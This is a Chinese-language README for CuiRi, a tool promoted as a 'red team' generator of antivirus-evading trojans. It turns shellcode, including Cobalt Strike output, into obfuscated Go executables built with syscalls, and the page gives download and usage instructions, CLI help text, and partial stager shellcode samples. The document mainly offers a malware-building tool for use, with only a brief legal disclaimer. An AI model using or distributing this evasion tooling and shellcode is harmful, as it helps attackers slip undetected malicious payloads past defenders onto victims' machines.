


# 摧日：CuiRi 红队专用免杀木马生成工具
   

### 0x01 简介：

```
   ____   __    __    _____      ______      _____  
  / ___)  ) )  ( (   (_   _)    (   __ \    (_   _) 
 / /     ( (    ) )    | |       ) (__) )     | |   
( (       ) )  ( (     | |      (    __/      | |   
( (      ( (    ) )    | |       ) \ \  _     | |   
 \ \___   ) \__/ (    _| |__    ( ( \ \_))   _| |__ 
  \____)  \______/   /_____(     )_) \__/   /_____( 

摧日：一款红队专用免杀木马生成器，基于shellcode生成绕过所有杀软的木马
```

CuiRi 是一款红队专用免杀木马生成器，该工具可以通过红队人员提供的一段 shellcode 快速生成一个绕过所有杀软的可执行木马。

**特点**

* 1.基于 Syscall 进行免杀，且随机混淆，可过几乎所有杀软
* 2.内置 go-strip 对 Go 生成的木马进行编译信息抹除与程序信息混淆
* 3.工具本体只有 1 个 exe，搭配 Go 环境即可直接使用

感谢 go-strip 作者 [@boy-hack](https://github.com/boy-hack "@boy-hack")

### 0x02 使用：

从 [release](https://github.com/NyDubh3/CuiRi/releases/tag/v1.0 "release") 中下载二进制文件，并且在系统上安装 Go 语言环境，然后将 shellcode 保存到1个txt文件中，即可使用本工具生成免杀马。

```bash
   ____   __    __    _____      ______      _____
  / ___)  ) )  ( (   (_   _)    (   __ \    (_   _)
 / /     ( (    ) )    | |       ) (__) )     | |
( (       ) )  ( (     | |      (    __/      | |
( (      ( (    ) )    | |       ) \ \  _     | |
 \ \___   ) \__/ (    _| |__    ( ( \ \_))   _| |__
  \____)  \______/   /_____(     )_) \__/   /_____(

摧日：一款红队专用免杀木马生成器，基于shellcode生成绕过所有杀软的木马

警告：
1.本工具仅用于企业内部测试，请勿用于任何非法犯罪活动，否则后果自负
2.本工具需要Go语言环境，且使用时需要关闭杀软
https://github.com/NyDubh3/CuiRi   Author:Dubh3

[INFO] Current Version: 1.0
Usage of CuiRi.exe:
  -f string
        通过shellcode生成免杀马
  -manual
        查看shellcode生成方法
```

CuiRi 支持的 shellcode 格式分为以下两种：

**1.C语言字符串格式 shellcode：**

```bash
"\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50\x52"
"\x48\x31\xd2\x51\x65\x48\x8b\x52\x60\x56\x48\x8b\x52\x18\x48"
"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
```

**2.纯十六进制数值格式 shellcode:**

注意：如果是从 Cobalt Strike 中生成的 bin 文件，请单独将 bin 里的十六进制复制保存到一个 txt 文件中。

```bash
fce8 8900 0000 6089 e531 d264 8b52 308b
520c 8b52 148b 7228 0fb7 4a26 31ff 31c0
ac3c 617c 022c 20c1 cf0d 01c7 e2f0 5257
8b52 108b 423c 01d0 8b40 7885 c074 4a01
d050 8b48 188b 5820 01d3 e33c 498b 348b
01d6 31ff 31c0 acc1 cf0d 01c7 38e0 75f4
037d f83b 7d24 75e2 588b 5824 01d3 668b
```

### 0x03 演示：

**(1) 生成 shellcode**


**(2) 生成免杀马**



**(3) 免杀效果**



